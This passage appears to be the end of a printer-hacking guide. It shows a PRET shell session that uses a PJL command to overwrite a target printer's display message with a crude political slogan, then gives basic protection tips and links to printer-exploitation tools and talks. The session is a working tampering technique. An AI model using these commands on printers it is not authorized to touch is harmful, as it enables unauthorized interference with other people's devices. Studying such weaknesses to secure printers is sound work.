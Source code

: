 ```
"MF420 Series"
MF420 Series

Welcome to the pret shell. Type help or ? to list commands.
<target>:/> display PUTIN HUYLO
Setting printer's display message to "PUTIN HUYLO"
@PJL RDYMSG DISPLAY="PUTIN HUYLO"
<target>:/> info status
@PJL INFO STATUS
@PJL INFO STATUS
CODE=10001
DISPLAY="PUTIN HUYLO"
ONLINE=TRUE
CODE=10001
<target>:/> exit
```

## protection

If someone wants to break u'r device, he will, anyway, the question is only time ). So the real protection - is to make u'r printer offline.

To increase breaking time u can do these steps:

* secure port 9100 as [described here](https://support.hp.com/us-en/document/c03687861)
* change default passwords on the web interface
* upgrade software constantly
* add a limit to IP address of u'r printer
* turn on a printer only when u need it

## Resources

* [CAPS](https://en.wikipedia.org/wiki/CUPS)
* [Print server](https://en.wikipedia.org/wiki/Print_server)
* [JetDirect](https://en.wikipedia.org/wiki/JetDirect)
* [PJL/PCL manual](https://developers.hp.com/system/files/PJL_Technical_Reference_Manual.pdf)
* [PJL Commands](https://docs.cpp.canon/help?tsm=ODP000057-7.3EN.GB&pageid=GUID-30D3E8D3-7A1B-4336-9058-26FB4FE54982.xml)
* [nmap](https://nmap.org)
* [netcat](https://en.wikipedia.org/wiki/Netcat)
* [PRET](https://github.com/RUB-NDS/PRET)
* [www.blackhat.com](https://www.blackhat.com/docs/us-17/thursday/us-17-Mueller-Exploiting-Network-Printers.pdf)
* [Hijetter](http://www.phenoelit.org/hp/docu.html)
* [Protect printer](https://hackingpassion.com/how-to-hack-and-exploit-printers-in-seconds/)